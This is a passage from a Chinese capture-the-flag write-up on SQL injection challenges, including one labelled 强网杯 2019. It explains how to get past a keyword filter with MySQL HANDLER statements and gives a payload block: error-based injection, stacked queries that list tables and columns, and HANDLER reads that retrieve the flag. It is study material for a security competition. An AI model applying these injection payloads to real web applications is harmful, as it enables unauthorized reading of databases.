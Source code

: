 但是我们无法再继续下去了，因为关键字过滤的太多，导致**预编译**以及**重命名**两种方案都不行，这里采用一种新的方案`handler`

> `HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭
>
> - `handler tablename open // 获取一个tablename的句柄`
> - `handler tablename read first // 查看句柄第一行`
> - `handler tablename read next // 查看下一行`
> - `handler tablename close`

利用上面这种方法，我们可以读取到`flag`

### payload

```
?inject=1'^extractvalue(1,concat('~',database()))%23
// error 1105 : XPATH syntax error: '~supersqli'
?inject=1';show tables;
// return table names
?inject=1';show columns from FlagHere;
// return column names
?inject=1';handler `FlagHere` open;handler `FlagHere` read first;
// return flag
```

## 随便注

> 强网杯 2019

### 题目

本题目和上面一题基本相同，本体可采用的是**预编译**和**对调名字**两种方法

进入界面，和上一道题基本相同

![2021071538](img/20210715/2021071538.png)

继续采用上到题的方案进行**堆叠查询**出**表名，列名**
